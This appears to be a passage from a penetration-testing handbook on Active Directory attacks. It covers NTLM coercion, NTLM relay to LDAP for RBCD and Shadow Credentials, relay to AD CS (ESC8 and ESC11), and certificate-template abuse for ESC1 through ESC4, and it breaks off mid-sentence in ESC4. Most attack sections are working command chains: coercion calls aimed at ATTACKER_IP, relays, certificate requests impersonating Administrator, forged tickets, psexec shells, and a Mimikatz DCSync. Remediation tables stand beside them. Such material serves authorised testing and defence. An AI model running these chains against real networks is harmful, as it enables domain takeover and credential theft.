Coercer scan -t TARGET_IP -u 'user$' -p 'password' -d domain.local -vCoerce mode — actively coerces authentication:
Coercer coerce -t TARGET_IP -l ATTACKER_IP -u 'user$' -p 'password' -d domain.local -v --always-continueHTTP NTLM coercion: Coercer v2.x has issues coercing HTTP NTLM auth. Use Coercer v1.6 with -wh (WebDAV host) and -wp (WebDAV port):
python3 Coercer.py -t TARGET_IP -u 'user$' -p 'password' -wh SUPPORTPC2 -wp 80 -vManual exploitation: Use the windows coerced authentication methods GitHub repository. Each RPC call folder contains coerce_poc.py:
python3 coerce_poc.py -u 'user$' -p 'password' -d domain.local ATTACKER_IP TARGET_IPOther coercion techniques: MS-FSRVP, PushSubscription Abuse.
Methodology
-
crackmapexec smb SUBNET -u USER -p PASS -M webdav -
crackmapexec smb DC_IP -u USER -p PASS -M drop-sc -o URL=https://ATTACKER/x SHARE=SHARE FILENAME=@secret -
Coercer scan -t TARGET_IP -u USER -p PASS -d DOMAIN -v -
python3 printerbug.py domain/user:'pass'@TARGET ATTACKER_IP -
python3 printerbug.py domain/user:'pass'@TARGET MACHINENAME@80/print
10.8.5 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Disable Print Spooler service on DCs and servers | Prevents PrinterBug coercion |
| Apply CVE-2021-36942 patch for PetitPotam | Prevents unauthenticated EFS coercion |
| Block RPC traffic between workstations and servers where not needed | Limits coercion attack surface |
| Disable WebClient service on servers | Prevents HTTP NTLM coercion via WebDAV |
| Monitor for anomalous RPC calls to PIPE\spoolss, PIPE\efsrpc, PIPE\lsarpc, PIPE\netdfs | Detection control |
| Enforce SMB signing and LDAP signing | Even if coerced, relay is blocked by signing |
| Restrict outbound NTLM authentication via GPO | Prevents machines from authenticating to attacker |
| Use RPC Filters to block dangerous named pipes on sensitive servers | Granular coercion prevention |
10.9 Advanced NTLM Relay Attacks Targeting Kerberos
These attacks combine NTLM relay with Kerberos delegation abuse and shadow credential techniques. They extend the LDAP cross-protocol post-relay attacks covered earlier.
10.9.1 Kerberos RBCD Abuse via Relay
Resource-Based Constrained Delegation (RBCD) allows a computer to trust authentication from specified other computers by setting the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. A trusted computer can then request service tickets on behalf of any domain user and authenticate to the trusting computer with elevated privileges.
Why relay enables RBCD abuse: By default, a computer can edit its own msDS-AllowedToActOnBehalfOfOtherIdentity attribute. If we coerce a target computer to perform NTLM authentication and relay it over LDAP to the DC, we can modify that attribute to add our attacker-controlled computer.
Prerequisites:
Attack chain:
Step 1: Enumerate WebDAV status and ensure it is running on the target:
crackmapexec smb SUBNET -u 'plaintext$' -p 'password' -M webdavStep 2: Start Responder (SMB and HTTP Off) and ntlmrelayx with RBCD options:
# ntlmrelayx targets DC via LDAPS, performs RBCD attack
sudo ntlmrelayx.py -t ldaps://[DOMAIN]\\'SQL01$'@DC_IP --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dumpStep 3: Coerce HTTP NTLM authentication from target using WebDAV connection string:
python3 printerbug.py domain/user:'pass'@TARGET_IP LINUX01@80/printStep 4: Upon successful relay, ntlmrelayx modifies the target's msDS-AllowedToActOnBehalfOfOtherIdentity:
[*] Delegation rights modified succesfully!
[*] plaintext$ can now impersonate users on SQL01$ via S4U2ProxyStep 5: Request a service ticket impersonating Administrator via S4U2Proxy:
getST.py -spn cifs/[sql-fqdn] -impersonate Administrator -dc-ip DC_IP "[DOMAIN]"/"plaintext$":"password"Step 6: Pass-the-ticket for interactive shell:
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass [sql-fqdn]Always use the FQDN when using Kerberos authentication. Ensure /etc/hosts maps the target correctly.
Alternative tool: DavRelayUp (Mor Davidovich) performs the same attack locally without needing to export the service ticket to a remote machine.
10.9.2 Shadow Credentials via Relay
Shadow Credentials is a persistence technique that adds alternative credentials to an account, allowing attackers to obtain a TGT and subsequently the NT hash for the user/computer. Shadow Credentials persist even if the user/computer changes passwords.
Traditional privilege abuse techniques (password reset, hash theft) are disruptive. Shadow Credentials abuses the msDS-KeyCredentialLink attribute to add a key credential, enabling PKINIT-based authentication.
Prerequisites:
Attack chain:
Step 1: Start Responder (HTTP Off) and ntlmrelayx with shadow credentials options:
ntlmrelayx.py -t ldap://[DOMAIN]\\CJAQ@DC_IP --shadow-credentials --shadow-target [user] --no-da --no-dump --no-aclOptions: --shadow-credentials enables the attack, --shadow-target specifies which account to set the KeyCredentialLink on (defaults to the relaying account if not specified).
Step 2: After successful relay, ntlmrelayx saves a .PFX certificate and password:
[*] Saved PFX (#PKCS12) certificate & key at path: rbnYdUv8.pfx
[*] Must be used with password: NRzoep723H6Yfc0pY91ZStep 3: Request TGT using the PFX certificate:
python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z [domain]/[user] [user].ccacheStep 4: Pass-the-ticket to authenticate:
KRB5CCNAME=[user].ccache evil-winrm -i [dc-fqdn] -r [domain]Methodology
-
sudo ntlmrelayx.py -t ldap://DC_IP --add-computer 'NAME$' --no-da --no-acl -
crackmapexec smb TARGET -u USER -p PASS -M webdav -
sudo ntlmrelayx.py -t ldaps://DOMAIN\\'TARGET$'@DC_IP --delegate-access --escalate-user 'COMPUTER$' --no-smb-server --no-dump -
python3 printerbug.py domain/user:'pass'@TARGET ATTACKERNAME@80/print -
getST.py -spn cifs/TARGET_FQDN -impersonate Administrator -dc-ip DC_IP "DOMAIN"/"COMPUTER$":"pass" KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass TARGET_FQDN -
ntlmrelayx.py -t ldap://DOMAIN\\PRIVUSER@DC_IP --shadow-credentials --shadow-target VICTIM --no-da --no-dump --no-acl -
python3 gettgtpkinit.py -cert-pfx FILE.pfx -pfx-pass PASSWORD DOMAIN/USER output.ccache
10.9.3 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Enforce LDAP signing and channel binding on DCs | Prevents LDAP relay used for both RBCD and Shadow Credentials |
| Disable WebClient service on all servers | Prevents HTTP NTLM coercion needed for these attacks |
| Set ms-DS-MachineAccountQuota to 0 | Prevents creation of attacker-controlled computer accounts |
| Monitor changes to msDS-AllowedToActOnBehalfOfOtherIdentity | Detects RBCD abuse |
| Monitor changes to msDS-KeyCredentialLink | Detects Shadow Credentials attack |
| Audit and restrict write permissions over user/computer objects | Prevents privilege abuse over accounts |
| Disable NTLM where possible; prefer Kerberos | Eliminates the relay attack vector entirely |
| Restrict delegation rights; use Protected Users group | Limits S4U2Proxy abuse and credential extraction |
10.10 Advanced NTLM Relay Attacks Targeting AD CS
Active Directory Certificate Services (AD CS) is Microsoft's PKI implementation for managing digital certificates. AD CS supports HTTP-based enrollment, allowing users to request certificates over HTTP. When combined with NTLM relay, attackers can request certificates by impersonating authenticated users' sessions.
The CA's web enrollment role service provides endpoints at http://<servername>/certsrv/certfnsh.asp.
Enumeration with CrackMapExec:
# Find AD CS service
crackmapexec ldap SUBNET -u 'user$' -p 'password' -M adcs
# List certificate templates
crackmapexec ldap DC_IP -u 'user$' -p 'password' -M adcs -o SERVER=[DOMAIN]-DC01-CAEnumeration with Certipy:
certipy find -enabled -u 'user$'@DC_IP -p 'password' -stdoutCertipy identifies vulnerabilities under [!] Vulnerabilities, flagging ESC8 (Web Enrollment enabled + Request Disposition set to Issue) and ESC11 (Encryption not enforced for ICPR requests).
10.10.1 ESC8: NTLM Relay to AD CS HTTP Endpoints
Description: "If an environment has AD CS installed, along with a vulnerable web enrollment endpoint and at least one certificate template published that allows for domain computer enrollment and client authentication (like the default Machine/Computer template), then an attacker can compromise ANY computer with the spooler service running!" (SpecterOps, Certified Pre-Owned)
Conditions for ESC8:
Key insight: Relaying SMB NTLM authentication over HTTP to the web enrollment endpoint is allowed because HTTP does not support session signing.
Enumeration — verify NTLM auth on web enrollment:
# Check headers for NTLM authentication
curl -I http://DC_IP/certsrv/
# Look for: WWW-Authenticate: NTLM
# Or use NTLMRecon
./NTLMRecon -t http://DC_IP/ -o json | jqAttack with ntlmrelayx:
Step 1: Start ntlmrelayx targeting the web enrollment endpoint:
sudo ntlmrelayx.py -t http://DC_IP/certsrv/certfnsh.asp -smb2support --adcs --template MachineOptions: --adcs enables AD CS relay, --template specifies the template (defaults to Machine for accounts ending in $, User otherwise; use DomainController for DC accounts).
Step 2: Coerce SMB NTLM authentication:
python3 printerbug.py domain/user:'pass'@TARGET_IP ATTACKER_IPStep 3: ntlmrelayx returns a base64-encoded certificate:
[*] GOT CERTIFICATE! ID 14
[*] Base64 certificate of user WS01$:
MIIRPQIBAzCCEP...Step 4: Decode the certificate to a PFX file:
echo -n "MIIRPQIBAzCCEP..." | base64 -d > ws01.pfxStep 5: Request TGT and extract AS-REP encryption key:
python3 gettgtpkinit.py -dc-ip DC_IP -cert-pfx ws01.pfx 'DOMAIN/WS01$' ws01.ccache
# Note the AS-REP encryption key printed in the outputStep 6: Recover NT hash using U2U:
KRB5CCNAME=ws01.ccache python3 getnthash.py 'DOMAIN/WS01$' -key AS_REP_KEYStep 7: Obtain domain SID:
lookupsid.py 'DOMAIN/WS01$'@DC_IP -hashes :NT_HASHStep 8: Forge a Silver Ticket:
ticketer.py -nthash NT_HASH -domain-sid DOMAIN_SID -domain domain.local -spn cifs/target.domain.local AdministratorStep 9: Use the ticket for interactive shell:
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass target.domain.localAttack with Certipy (simpler):
# Step 1: Start Certipy relay
sudo certipy relay -target "http://DC_IP" -template Machine
# Step 2: Coerce authentication
python3 printerbug.py domain/user:'pass'@TARGET_IP ATTACKER_IP
# Step 3: Certipy saves the PFX directly
[*] Saved certificate and private key to 'ws01.pfx'
# Step 4: Authenticate and recover NT hash
certipy auth -pfx ws01.pfx -dc-ip DC_IP
# Output: Got hash for 'ws01$@DOMAIN': aad3b435b51404eeaad3b435b51404ee:NT_HASH10.10.2 ESC11: NTLM Relay to AD CS ICPR Endpoints
Description: ESC11 abuses the ICertPassage Remote Protocol (MS-ICPR), an RPC interface for certificate enrollment. The vulnerability exists when the CA does not enforce encryption for ICPR requests (the IF_ENFORCEENCRYPTICERTREQUEST flag is not set).
Specification: The CertServerRequest method (Opnum 0) requires the flag IF_ENFORCEENCRYPTICERTREQUEST and RPC_C_AUTHN_LEVEL_PKT_PRIVACY for encrypted connections. Without this flag, unencrypted relay sessions can enroll for certificates.
Windows Server 2012+ sets IF_ENFORCEENCRYPTICERTREQUEST by default (for backward compatibility with Windows XP clients, it may be disabled). Admins can unset it with:
certutil -setreg CA\InterfaceFlags -IF_ENFORCEENCRYPTICERTREQUESTTool support: Currently, ntlmrelayx only supports MS-TSCH for RPC relay (ICPR PR is unmerged; ThePorgs fork has it). Use Certipy for ESC11.
Attack with Certipy:
# Step 1: Start Certipy relay targeting RPC/ICPR
sudo certipy relay -target "rpc://DC_IP" -ca "[DOMAIN]-DC01-CA"
# Step 2: Coerce SMB NTLM authentication
python3 printerbug.py domain/user:'pass'@TARGET_IP ATTACKER_IP
# Step 3: Certipy relays over RPC/ICPR and saves certificate
[*] Targeting rpc://DC_IP (ESC11)
[*] Successfully requested certificate
[*] Saved certificate and private key to 'ws01.pfx'
# Step 4: Authenticate and get NT hash
certipy auth -pfx ws01.pfx -dc-ip DC_IPFrom here, continue with the silver ticket attack chain as in ESC8.
Self-relay limitation: If AD CS lives on the only DC, you cannot relay a DC's coerced authentication back to itself for ESC8/ESC11 (NTLM self-relay is patched). In real-world environments with multiple DCs, this attack is viable.
Troubleshooting: If you encounter KDC_ERR_PADATA_TYPE_NOSUPP, sync time with the DC using ntpdate DC_IP.
Methodology
-
crackmapexec ldap SUBNET -u USER -p PASS -M adcs certipy find -enabled -u USER@DC_IP -p PASS -stdout -
curl -I http://DC_IP/certsrv/ -
sudo ntlmrelayx.py -t http://DC_IP/certsrv/certfnsh.asp -smb2support --adcs --template Machine # OR sudo certipy relay -target "http://DC_IP" -template Machine -
python3 printerbug.py domain/user:'pass'@TARGET ATTACKER_IP -
echo -n "BASE64_CERT" | base64 -d > target.pfx python3 gettgtpkinit.py -dc-ip DC_IP -cert-pfx target.pfx 'DOMAIN/TARGET$' target.ccache -
KRB5CCNAME=target.ccache python3 getnthash.py 'DOMAIN/TARGET$' -key AS_REP_KEY ticketer.py -nthash NT_HASH -domain-sid SID -domain DOMAIN -spn cifs/TARGET_FQDN Administrator -
sudo certipy relay -target "rpc://DC_IP" -ca "CA_NAME" -
certipy auth -pfx target.pfx -dc-ip DC_IP
10.10.3 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Disable HTTP web enrollment on the CA (or use HTTPS with EPA) | Directly prevents ESC8 |
Enable IF_ENFORCEENCRYPTICERTREQUEST flag on the CA | Directly prevents ESC11 |
| Disable NTLM authentication on web enrollment endpoints (use Kerberos negotiate) | Prevents relay to HTTP endpoints |
| Set Request Disposition to "pend" instead of "issue" for sensitive templates | Requires manual approval for certificate requests |
| Remove unnecessary certificate templates (especially Machine/Computer if not needed) | Reduces attack surface |
| Enforce EPA on AD CS web enrollment endpoints | Prevents cross-protocol relay to HTTP |
| Disable Print Spooler on DCs and sensitive servers | Prevents PrinterBug coercion |
| Monitor certificate enrollment events (Event ID 4886, 4887) | Detection control for unauthorized certificate requests |
| Use Certipy's find command regularly to audit CA configuration | Proactively identify ESC vulnerabilities |
10.11 NTLM Relay Attack Summary
This section provides a consolidated reference for the entire NTLM relay attack lifecycle.
10.11.1 Complete Attack Matrix
| Phase | Technique | Primary Tool | Key Requirement |
|---|---|---|---|
| Pre-relay | LLMNR/NBT-NS/mDNS Poisoning | Responder, Inveigh, Pretender | Network access on same subnet |
| Pre-relay | Hash Farming (shared folders) | ntlm_theft, CrackMapExec Slinky, Farmer | Write access to SMB shares |
| Pre-relay | WebDAV Abuse | CrackMapExec drop-sc, Slinky | WebClient service enabled on target |
| Pre-relay | PrinterBug (MS-RPRN) | printerbug.py, SpoolSample | Print Spooler running; valid domain creds |
| Pre-relay | PetitPotam (MS-EFSR) | PetitPotam.py | Valid domain creds (post-patch) |
| Pre-relay | DFSCoerce (MS-DFSNM) | dfscoerce.py | Valid domain creds |
| Pre-relay | Coercer (multi-protocol) | Coercer | Valid domain creds |
| Relay | SMB to SMB | ntlmrelayx | Target SMB signing not required |
| Relay | SMB to MSSQL | ntlmrelayx | MSSQL service on target |
| Relay | HTTP to LDAP | ntlmrelayx | HTTP auth coerced; DC accessible |
| Relay | SMB to HTTP (AD CS) | ntlmrelayx, Certipy | Web enrollment with NTLM enabled |
| Relay | SMB to RPC/ICPR (AD CS) | Certipy | IF_ENFORCEENCRYPTICERTREQUEST not set |
| Post-relay | SAM Dump | ntlmrelayx (default) | Admin privileges on target |
| Post-relay | Command Execution | ntlmrelayx -c | Admin privileges on target |
| Post-relay | SOCKS Proxy | ntlmrelayx -socks | Any successful relay |
| Post-relay | Domain Enumeration | ntlmrelayx (LDAP dump) | HTTP NTLM relay to DC |
| Post-relay | Computer Account Creation | ntlmrelayx --add-computer | MachineAccountQuota >= 1 |
| Post-relay | ACL Privilege Escalation | ntlmrelayx --escalate-user | Relayed user has elevated ACL perms |
| Post-relay | RBCD Abuse | ntlmrelayx --delegate-access | HTTP relay to LDAP; computer account |
| Post-relay | Shadow Credentials | ntlmrelayx --shadow-credentials | Relayed user has write to target; PKINIT |
| Post-relay | ESC8 (Certificate Request) | ntlmrelayx --adcs / Certipy relay | Web enrollment with NTLM auth |
| Post-relay | ESC11 (ICPR Certificate Request) | Certipy relay (RPC) | IF_ENFORCEENCRYPTICERTREQUEST unset |
10.11.2 Tool Reference
| Tool | Purpose | Key Flags |
|---|---|---|
| Responder | LLMNR/NBT-NS/mDNS poisoner and rogue auth server | -I interface, -A analyze mode |
| ntlmrelayx.py | NTLM relay and post-relay attacks | -t/-tf targets, -socks, -c, -i, --adcs, --delegate-access, --shadow-credentials, --add-computer, --escalate-user, --remove-mic |
| Certipy | AD CS enumeration and ESC attacks | find, relay, auth |
| printerbug.py | MS-RPRN PrinterBug coercion | positional: target, listener |
| PetitPotam.py | MS-EFSR coercion | positional: listener, target; -u/-p |
| dfscoerce.py | MS-DFSNM coercion | -u/-p, positional: listener, target |
| Coercer | Multi-protocol coercion (17 methods, 5 protocols) | scan, coerce, -wh/-wp (WebDAV) |
| ntlm_theft | Generate NTLMv2 hash theft files | -g file type, -s server IP, -f filename |
| CrackMapExec | Network enumeration and module execution | --gen-relay-list, modules: webdav, slinky, drop-sc, adcs |
| RunFinger.py | SMB signing enumeration | -i subnet |
| PKINITtools | PKINIT-based TGT/hash recovery | gettgtpkinit.py, getnthash.py, getST.py |
| ticketer.py | Silver/Golden Ticket forging | -nthash, -domain-sid, -spn |
10.11.3 Comprehensive Defense Checklist
| Defense Layer | Action | Prevents |
|---|---|---|
| Protocol | Disable NTLMv1/LM; enforce NTLMv2-only (LmCompatibilityLevel=5) | Weak hash attacks |
| Protocol | Disable NTLM entirely where possible; prefer Kerberos | All NTLM relay |
| Name Resolution | Disable LLMNR, NBT-NS, mDNS via GPO | Poisoning-based pre-relay |
| SMB | Enforce SMB signing (Required) on ALL hosts via GPO | SMB relay |
| LDAP | Enforce LDAP signing and channel binding on DCs | LDAP relay |
| HTTP | Enable EPA on all HTTP endpoints | HTTP cross-protocol relay |
| AD CS | Disable web enrollment or enforce HTTPS with EPA | ESC8 |
| AD CS | Enable IF_ENFORCEENCRYPTICERTREQUEST on CA | ESC11 |
| AD CS | Remove unnecessary certificate templates; set disposition to "pend" | Certificate abuse |
| Services | Disable Print Spooler on DCs and sensitive servers | PrinterBug coercion |
| Services | Disable WebClient service on servers | WebDAV HTTP coercion |
| AD Objects | Set ms-DS-MachineAccountQuota to 0 | Relay-based computer account creation |
| AD Objects | Monitor msDS-AllowedToActOnBehalfOfOtherIdentity changes | RBCD abuse detection |
| AD Objects | Monitor msDS-KeyCredentialLink changes | Shadow Credentials detection |
| ACLs | Audit and fix misconfigured ACLs/DACLs | Privilege escalation via relay |
| Network | Block outbound SMB (port 445) at perimeter | Hash exfiltration to external attacker |
| Shares | Restrict anonymous/writable access; monitor for suspicious files | Hash farming |
| Detection | Monitor for Responder/Inveigh artifacts; anomalous auth patterns | Active relay attempts |
Methodology
11. ADCS Attacks
11.1 ADCS Introduction
Active Directory Certificate Services (ADCS) is a Windows Server role that lets organizations build and manage their own Public Key Infrastructure (PKI). ADCS integrates tightly with Active Directory Domain Services (AD DS) and underpins secure communication, user/device authentication, and data-integrity controls across the domain.
11.1.1 Public Key Infrastructure (PKI)
PKI is a framework of hardware, software, policies, and procedures that uses digital certificates and public-key cryptography to secure communication over untrusted networks. A digital certificate is an X.509 document that binds a public key to a subject (person, device, or service) and is signed by a trusted Certificate Authority (CA).
Core PKI benefits:
- Confidentiality: encrypt data at rest and in transit.
- Integrity: digital signatures detect tampering.
- Authenticity / Non-repudiation: message digests signed with a sender's private key prove origin.
ADCS advantages over standalone PKI: tight AD DS integration, built-in CRL/OCSP revocation, custom certificate templates, scalable CA hierarchies.
11.1.2 Essential ADCS Terminology
| Term | Description |
|---|---|
| Certificate Authority (CA) | Issues, manages, and revokes certificates. Can be Standalone (no AD dependency) or Enterprise (AD-integrated, uses templates and Group Policy). |
| Root CA / Subordinate CA | Root CA self-signs its own certificate and anchors the trust chain. Subordinate CAs are signed by a parent CA. |
| Certificate Templates | AD objects (pKICertificateTemplate) that define certificate properties: EKUs, validity period, enrollment rights, key usage, name flags, etc. |
| Certificate Enrollment | Process by which a subject requests and obtains a certificate from an Enterprise CA. |
| Extended Key Usages (EKUs) | OIDs that restrict certificate purpose (e.g., Client Authentication, Code Signing, Smart Card Logon). |
| Certificate Revocation List (CRL) | Signed list of revoked certificate serial numbers published by the CA. |
| Key Management | Private key lifecycle: generation, storage, archival, and recovery. |
| Enrollment Services Container | AD container (CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration) holding Enterprise CA objects. |
| NTAuthCertificates | AD object listing CA certificates trusted for AD authentication. A certificate must chain to a CA listed here to authenticate to AD. |
11.1.3 Certificates, CAs, Templates, and the Enrollment Process
A certificate contains: Subject, Public Key, NotBefore/NotAfter dates, Serial Number, Issuer, SubjectAlternativeName (SAN), Basic Constraints, EKUs, and the Signature.
EKUs that enable AD authentication:
| Description | OID |
|---|---|
| Client Authentication | 1.3.6.1.5.5.7.3.2 |
| PKINIT Client Authentication | 1.3.6.1.5.2.3.4 |
| Smart Card Logon | 1.3.6.1.4.1.311.20.2.2 |
| Any Purpose | 2.5.29.37.0 |
| SubCA (no EKUs) | (empty) |
Enrollment process (6 steps):
Issuance Requirements: two settings gate certificate issuance beyond basic enrollment rights:
- Manager Approval (
CT_FLAG_PEND_ALL_REQUESTS,0x2inmsPKI-EnrollmentFlag); all requests go to a "Pending" queue and require a Certificate Manager to approve. - Authorized Signatures / Application Policy: number of co-signatures required on the CSR and the EKU OIDs the signing certificate must contain.
Methodology
-
net localgroup "Cert Publishers"
11.2 ADCS Enumeration
Before attacking ADCS, determine whether the service exists, which server hosts it, and which templates are enabled. The ADCS server may live on the Domain Controller or on a separate member server.
11.2.1 Enumeration from Windows
Check for the Cert Publishers group; ADCS servers are members:
net localgroup "Cert Publishers"Use Certify.exe (C# tool by SpecterOps) to enumerate all templates and vulnerable configurations:
.\Certify.exe find
.\Certify.exe find /vulnerable
.\Certify.exe casPowerShell LDAP queries for specific ESC conditions (example for ESC1):
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'11.2.2 Enumeration from Linux
Use NetExec to detect ADCS:
netexec ldap [target-ip] -u "[user]" -p "[password]" -M adcsInstall and use Certipy (Python tool by Oliver Lyak); the most comprehensive ADCS enumeration and exploitation framework:
pip3 install certipy-adEnumerate all templates and CAs:
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -stdoutFind only vulnerable configurations:
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -vulnerable -stdoutMethodology
-
netexec ldap $DC_IP -u "$USER" -p "$PASS" -M adcs -
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -bloodhound
11.3 ESC1; Misconfigured Certificate Template (Enrollee Supplies Subject)
11.3.1 Understanding ESC1
ESC1 exploits a certificate template that allows the enrollee to specify an arbitrary Subject Alternative Name (SAN) in the CSR. When a low-privileged user can request a certificate with the SAN set to a privileged account (e.g., Administrator), the CA issues a certificate that authenticates as that account.

11.3.2 Abuse Requirements
| # | Condition |
|---|---|
| 1 | Enterprise CA grants enrollment rights to low-privileged users (e.g., Domain Users) |
| 2 | Manager Approval is disabled (msPKI-EnrollmentFlag does not contain CT_FLAG_PEND_ALL_REQUESTS) |
| 3 | No authorized signatures required (msPKI-RA-Signature = 0) |
| 4 | Template defines EKUs enabling authentication (Client Auth, Smart Card Logon, PKINIT, Any Purpose, or no EKU) |
| 5 | CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT is set; requesters can specify a SAN in the CSR |
11.3.3 ESC1 Attack from Linux
Enumerate vulnerable templates:
certipy find -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -vulnerable -stdoutRequest a certificate with an alternate SAN:
certipy req -u '[user]@lab.local' -p '[password]' -dc-ip [target-ip] -ca [ca-name] -template ESC1 -upn AdministratorAuthenticate with the certificate to obtain a TGT and NT hash:
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip [target-ip]Use the TGT to access the DC:
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.LAB.LOCAL11.3.4 ESC1 Attack from Windows
Enumerate with Certify:
.\Certify.exe find /vulnerableRequest certificate with alternate SAN:
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:ESC1 /altname:AdministratorConvert PEM to PFX:
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfxAuthenticate with Rubeus:
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrapImport the ticket into a sacrificial logon session:
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TICKET>Perform DCSync with the imported ticket:
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:lab\Administrator"'Methodology
-
certipy find -u "$USER@$DOMAIN" -p "$PASS" -dc-ip $DC_IP -vulnerable -stdout -
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA_NAME -template $TEMPLATE -upn Administrator -
certipy auth -pfx administrator.pfx -username administrator -domain $DOMAIN -dc-ip $DC_IP -
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass $DC_FQDN
11.3.5 Remediation
- Remove
CT_FLAG_ENROLLEE_SUPPLIES_SUBJECTfrom templates that allow Client Authentication. - Restrict enrollment rights to the minimum required principals.
- Enable Manager Approval on sensitive templates.
- Require at least one authorized signature on the CSR.
- Monitor certificate enrollment events (Event ID 4886, 4887).
11.4 ESC2; Any Purpose EKU / No EKU
11.4.1 Understanding ESC2
ESC2 targets templates where the EKU is set to Any Purpose (2.5.29.37.0) or no EKU is defined at all (SubCA). These certificates can be used for any purpose, including client authentication. If the template also allows EnrolleeSuppliesSubject, the attack is identical to ESC1. If not, the certificate can still be used as a subordinate CA certificate to sign new certificates with arbitrary EKUs.
11.4.2 Abuse Requirements
- Enterprise CA grants enrollment rights to low-privileged users.
- Manager approval disabled, no authorized signatures required.
- Template defines Any Purpose EKU or has no EKU specified.
11.4.3 Attack (Linux and Windows)
The attack is the same as ESC1 when the template also allows SAN specification. Request with alternate SAN:
# Linux
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template ESC2 -upn Administrator
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip [target-ip]
# Windows
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:ESC2 /altname:Administrator
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrapPowerShell enumeration for ESC2:
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=lab,DC=local'Methodology
-
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -template ESC2 -upn Administrator -
certipy auth -pfx administrator.pfx -username administrator -domain $DOMAIN
11.4.4 Remediation
- Replace Any Purpose EKU with specific EKUs that match the intended certificate use.
- Remove templates with no EKU (SubCA) from Enterprise CA unless absolutely necessary.
- Restrict enrollment rights.
11.5 ESC3; Enrollment Agent Template Abuse
11.5.1 Understanding ESC3
ESC3 exploits the Certificate Request Agent EKU (1.3.6.1.4.1.311.20.2.1), which allows a principal to request certificates on behalf of other users. The attack is a two-step process: first obtain an enrollment agent certificate, then use it to co-sign a CSR for a privileged user using a template that allows authentication.
11.5.2 Abuse Requirements (Two Conditions)
Condition 1: Enrollment Agent template:
- Low-privileged users have enrollment rights.
- Manager approval disabled, no authorized signatures.
- Template contains Certificate Request Agent EKU.
Condition 2: Target template:
- Low-privileged users have enrollment rights.
- Manager approval disabled.
- Defines an EKU enabling domain authentication (Client Auth).
- Schema version 1 or >2 with Application Policy requiring Certificate Request Agent.
- No enrollment agent restrictions on the CA.
11.5.3 Attack
Linux (Certipy); Step 1: Obtain the enrollment agent certificate:
certipy req -u '[user]@lab.local' -p '[password]' -ca '[ca-name]' -template 'ESC3'Step 2: Request a certificate on behalf of Administrator using the built-in User template:
certipy req -u '[user]@lab.local' -p '[password]' -ca [ca-name] -template 'User' -on-behalf-of 'lab\administrator' -pfx [user].pfxWindows (Certify); Step 1:
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:ESC3Step 2:
.\Certify.exe request /ca:[dc-fqdn]\[ca-name] /template:User /onbehalfof:LAB\Administrator /enrollcert:cert.pfxMethodology
-
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -template ESC3 -
certipy req -u "$USER@$DOMAIN" -p "$PASS" -ca $CA -template User -on-behalf-of "$DOMAIN_SHORT\administrator" -pfx $AGENT_PFX -
certipy auth -pfx administrator.pfx -domain $DOMAIN
11.5.4 Remediation
- Remove enrollment rights for low-privileged users on templates with the Certificate Request Agent EKU.
- Configure Enrollment Agent Restrictions on the CA to limit which users/templates can be used for on-behalf-of requests.
- Enable Manager Approval on enrollment agent templates.
11.6 ESC4; Vulnerable Certificate Template Access Control
11.6.1 Understanding ESC4
ESC4 exploits misconfigured DACLs on certificate template AD objects. If a low-privileged user has write permissions (FullControl, WriteDacl, WriteOwner, WriteProperty) over a template, they can modify it to become vulnerable to ESC1 and then abuse it.
11.6.2 Modifications Required
To make a template vulnerable to ESC1, the attacker modifies:
- Grant Enrollment Rights (GUID
0e10c968-78fb-11d2-90d4-00c04f79dc55) - Disable Manager Approval: set
msPKI-Enrollment-Flagto removeCT_FLAG_PEND_ALL_REQUESTS - Set
msPKI-RA-Signature = 0: disable authorized signatures - Enable
